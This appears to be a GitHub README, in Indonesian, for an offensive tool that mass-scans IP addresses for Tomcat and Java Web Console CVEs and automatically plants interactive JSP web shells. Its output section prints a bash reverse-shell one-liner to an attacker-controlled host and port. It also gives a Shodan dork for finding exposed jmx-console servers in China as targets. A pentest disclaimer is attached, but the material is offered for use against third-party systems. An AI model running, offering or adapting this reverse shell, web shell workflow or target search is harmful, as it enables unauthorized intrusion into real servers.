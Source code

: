 # 🛠️ Sincan2 Exploit Tool v3.4.1

> **by MHL TEAM**  
> Framework eksploitasi interaktif untuk vektor Java Web Console, Apache Tomcat, dan berbagai CVE modern.

![Screenshot](demo.png)
![Screenshot](demo2.png)

---

## 🚀 Fitur Utama

- 🎯 Scan satu IP atau massal dari file
- 🧠 Deteksi CVE modern secara otomatis
- 💣 Eksploitasi otomatis shell JSP interaktif
- 📁 Stateful scanning: hasil sukses disimpan & IP dihapus

---

## 🔍 Dukungan CVE

- CVE-2022-0853 — ROP Memory Leak  
- CVE-2023-5379 — Undertow Overflow  
- CVE-2023-1397 — DoS 8MB  
- CVE-2023-6236 — Spoofed JSON  
- CVE-2025-24813 — Tomcat Path Traversal

---

## 📦 Cara Pakai

```bash
bash sodok.sh
```

Ikuti menu interaktif:

- `[1]` Scan satu IP
- `[2]` Scan dari file (`koped.txt`)
- `[3]` Keluar

---

## 🧾 Output Shell

```bash
Target Shell: http://IP/jexws4/jexws4.jsp
Reverse Shell: /bin/bash -i >& /dev/tcp/IPMU/PORT 0>&1
Dork : cari target nya dus : https://www.shodan.io/search?query=%22jmx-console%22+country%3A%22CN%22
```

---

## ⚠️ Disclaimer

Tool ini hanya untuk penggunaan sah dalam penetration testing & edukasi.  
Segala penyalahgunaan adalah tanggung jawab pengguna.

---

## 🤝 Kontribusi

BY Sincan2 MHL Team.

---

## 📫 Kontak

📧 Tim MHL: `sincan2@gmail.com`  
🔗 GitHub: [github.com/sincan2](https://github.com/sincan2)
